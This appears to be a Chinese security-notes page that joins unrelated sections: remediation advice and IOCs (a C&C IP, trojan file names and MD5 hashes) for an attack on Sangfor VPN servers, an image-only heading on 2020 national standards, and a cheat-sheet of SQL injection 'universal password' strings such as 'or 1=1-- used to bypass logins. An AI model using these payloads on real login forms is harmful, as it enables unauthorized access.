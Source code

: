 ## 处置建议

1、 依照深信服官方给出的处置建议（详见参考文献），建议用户限制外网或非信任IP访问VPN服务器的4430控制台管理端口，阻断黑客针对VPN服务器管理后台进行的攻击；并尽快从官方渠道安装相关补丁

2、 使用绿盟威胁情报中心发布的IOC进行检测，采用专杀工具对木马文件彻底查杀。



## 相关威胁情报

完整IOC（持续更新中）：

1、C&C：103.216.221.19

2、文件名：SangforUD.EXE，MD5：a32e1202257a2945bf0f878c58490af8,

3、文件名：SangforUD.EXE，MD5：967fcf185634def5177f74b0f703bdc0

4、文件名：SangforUD.EXE，MD5：c5d5cb99291fa4b2a68b5ea3ff9d9f9a

5、文件名：e58b8de07372b9913ca2fbd3b103bb8f.virus，

MD5：e58b8de07372b9913ca2fbd3b103bb8f

6、文件名：m.exe，MD5：429be60f0e444f4d9ba1255e88093721

7、文件名：93e9383ae8ad2371d457fc4c1035157d887a84bbfe66fbbb3769c5637de59c75，

MD5：18427cdcb5729a194954f0a6b5c0835a

8、文件名：SANARISOR.EXE，MD5：a93ece16bf430431f9cae0125701f527



# 2020年第一批推荐性网络安全国家标准计划项目清单

![15862534777173](/blog.github.io/images/15862534777173.png)

#  常见的万能密码包括：

````sql
"or "a"="a
')or('a'='a
or 1=1--
'or 1=1--
a'or' 1=1--
"or 1=1--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 1=1
'OR 1=1%00
````
